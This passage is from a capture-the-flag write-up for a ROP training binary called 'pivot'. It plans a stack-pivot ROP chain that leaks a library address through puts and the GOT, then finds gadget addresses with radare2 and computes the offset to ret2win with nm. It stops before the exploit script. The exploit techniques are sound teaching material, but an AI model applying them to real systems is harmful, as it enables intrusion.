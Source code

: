 ```
│           0x00000afc      e83ffdffff     call sym.imp.fclose         ; int fclose(FILE *stream)
│           0x00000b01      48c745c80000.  mov qword [stream], 0
│           0x00000b09      bf00000000     mov edi, 0                  ; int status
╰           0x00000b0e      e85dfdffff     call sym.imp.exit           ; void exit(int status)
```
- It opens flag.txt and prints it out, so now we have a potential solution, which will involve looping back to the beginning of the program:
  - In the 1st input of the 1st program loop iteration we need to:
    - Call `foothold_function` from the PLT to resolve its memory address
    - Print the resolved location of `foothold_function` by placing the GOT pointer into rdi and then immediately calling `puts` afterwards (note that we must capture this printed resolved address of `foothold_function` for use later)
    - Return back the very start of the program, but this time we know the location of all the imported libpivot addresses because their positions are relative to the resolved address of `foothold_function`
  - In the 2nd input of the 1st program loop iteration we place 40 bytes of padding (because the rbp value isn't important) then followed by our ROP chain that pivots the stack to where our 1st input is stored
  - In the 1st input of the 2nd program loop iteration we can put anything here, as it won't be used
  - In the 2nd input of the 2nd program loop iteration we place 40 bytes of padding (because the rbp value isn't important) then followed by the resolved address of `foothold_function` which we leaked in the 1st program loop iteration
- With the plan in place, we just need memory addresses for `start`, `pop_rdi`, `puts_plt` and the address of `ret2win` relative to `foothold_function`, so quit radare2 then open the main ELF binary in radare2 again:
> $ `r2 -A ./pivot`  
- When we've just opened the binary in radare2 the seek point is already at the program's entry point `0x400760` (our `start` location to loop back to), which we can confirm using `ie`:
> [0x00400760]> `ie`  
```
[Entrypoints]
vaddr=0x00400760 paddr=0x00000760 haddr=0x00000018 hvaddr=0x00400018 type=program

1 entrypoints
```
- Now search for the `pop rdi` gadget, which we find out is at `0x400a33`:
> [0x00400760]> `/R pop rdi`  
```
  0x00400a33                 5f  pop rdi
  0x00400a34                 c3  ret
```
- Then get the location of `puts` in the PLT, which we find out is at `0x4006e0`:
> [0x00400760]> `ii ~ puts`  
```
2   0x004006e0 GLOBAL FUNC       puts
```
- Lastly, quit radare2 and move on to the next section where we'll get the address of `ret2win` relative to `foothold_function`

## Address of `ret2win` Relative to `foothold_function`
- We'll use [`nm`](https://www.man7.org/linux/man-pages/man1/nm.1.html) to find the offset
> $ `nm -D ./libpivot.so`  
```
[...]
000000000000096a T foothold_function
[...]
0000000000000a81 T ret2win
```
- 0xa81-0x96a == 0x117 == 279
- i.e. resolved `foothold_function` address + 0x117 == `ret2win` address
- All the pieces of the puzzle have been collected, so just write a Python script to get the flag
